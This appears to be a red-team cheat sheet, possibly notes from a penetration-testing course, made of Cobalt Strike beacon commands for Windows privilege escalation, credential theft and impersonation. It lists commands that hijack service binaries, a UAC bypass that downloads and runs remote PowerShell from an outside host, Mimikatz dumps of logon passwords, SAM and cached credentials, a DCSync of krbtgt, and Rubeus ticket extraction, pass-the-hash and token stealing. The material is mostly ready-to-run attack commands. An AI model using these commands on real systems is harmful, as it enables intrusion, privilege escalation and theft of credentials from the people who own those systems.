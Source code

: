 `powershell Get-Acl -Path "[path]" | fl`
#### Weak Service Permissions
`powershell-import C:\Tools\Get-ServiceAcl.ps1`
`powershell Get-ServiceAcl -Name [service] | select -expand Access`

`cd C:\Windows\Tasks`
`upload C:\Payloads\local_x64.svc.exe`
`run sc config [service] binPath= C:\Windows\Tasks\local_x64.svc.exe`
`run sc qc [service]`
`connect localhost 4444`
#### Weak Service Binary Permissions
`powershell Get-Acl -Path "[path]" | fl`
`download [service binary]`
#### UAC Bypass
`run whoami /groups`
`elevate uac-schtasks local`
`runasadmin uac-cmstplua powershell "IEX(IWR -Uri http://nickelviper.com/bypass -UseBasicParsing);IEX(IWR -Uri http://nickelviper.com/[payload] -UseBasicParsing)"`
## Credential Theft

Mimikatz Symbols
- ! ⇒ `token::elevate`
- @ ⇒ impersonate beacon thread token (use with dcsync)
#### Passwords and Hashes
`mimikatz !sekurlsa::logonpasswords`
`mimikatz !sekurlsa::ekeys`
`mimikatz !lsadump::sam`
`mimikatz !lsadump::cache`
`dcsync [fqdn] [netbios]\krbtgt`
#### Kerberos Tickets
`execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe triage`
`execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe dump /luid:[luid] /service:krbtgt /nowrap`

`execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe tgtdeleg /nowrap`
## User Impersonation
`rev2self`
#### Pass-the-Password
`make_token [domain]\[user] [password]`
#### Pass-the-Hash
`pth [domain]\[user] [hash]`
`mimikatz sekurlsa::pth /domain:[domain] /user:[user] /ntlm:[hash] /run:cmd.exe`
`steal_token [pid]`
#### Pass-the-Ticket
`execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /ticket:[ticket]`
`steal_token [pid]`
#### Overpass-the-Hash
`execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgt /domain:[domain] /user:[user] /aes256:[hash] /opsec /nowrap`
[[#Pass-the-Ticket]]
#### Token Impersonation
`ps`
`steal_token [pid]`
